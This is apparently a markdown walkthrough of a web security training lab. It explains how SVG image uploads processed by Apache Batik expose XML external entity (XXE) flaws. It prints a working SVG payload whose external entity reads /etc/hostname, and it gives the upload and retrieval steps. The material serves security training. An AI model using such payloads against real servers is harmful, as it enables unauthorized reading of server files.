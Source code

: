 ## Introduction
- Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents.
**Example** - 
XML-based formats are office document formats like DOCX and image formats like SVG.

**Example Scenario** - 
an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images.
Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

## Steps to solve lab
### Desc - Exploiting XXE via image file upload
**Our end goal** - This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

1. Now, we already know which parameter is vulnerable which is image upload in comments so, comment below the blog with `.svg` file containing the contents as shown below:
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test 
[ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![[XXE27.png]]

**In burp** - 
![[XXE28.png]]

2. Now, navigate to your upload avtar image and grab the hostname and submit it as a solution.
![[XXE29.png]]

